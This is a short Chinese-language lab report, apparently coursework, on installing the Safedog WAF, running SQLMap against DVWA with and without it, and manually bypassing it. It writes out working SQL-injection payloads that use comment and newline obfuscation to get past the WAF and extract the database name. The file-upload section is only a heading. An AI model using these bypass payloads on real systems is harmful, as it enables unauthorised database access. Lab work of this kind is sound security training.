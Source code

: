 ```yaml
---
typora-root-url: ./
---
```


## 1.实现 WAF 安装与配置。

按照文档安装配置完后进行测试

![1](/1.png)

WAF成功拦截

![2](/2.png)

## 2.WAF 绕过 SQL 注入

- ## 分别在无 WAF 和有 WAF 的情况下，利用 SQLMap 进行注入，提供注入结果截图。

  无WAF利用Sqlmap进行注入的结果

  ![3](/3.png)

  有WAF利用Sqlmap进行注入的结果

  ![4](/4.png)

- ## 在有 WAF 的情况下，手工注入出 DVWA 数据库中的 user 和 password，提供注入过程说明文档。

  通过输入1' group by 2#得到查询列数为两列

  通过输入-1' regexp "%0A%23" /*!44977union %0A select */ 1,2-- 得到数据回显

  通过输入-1' regexp "%0A%23" /*!44977union %0A select */ 1, database( %0A /*!44977)*/ -- 得到数据库dvwa

  

  

## 3.WAF 绕过文件上传：判断安全狗对于上传文件的检测规则，是基于文件后缀名、文件类型、文件内容中的哪项来进行匹配拦截，给出推导过程。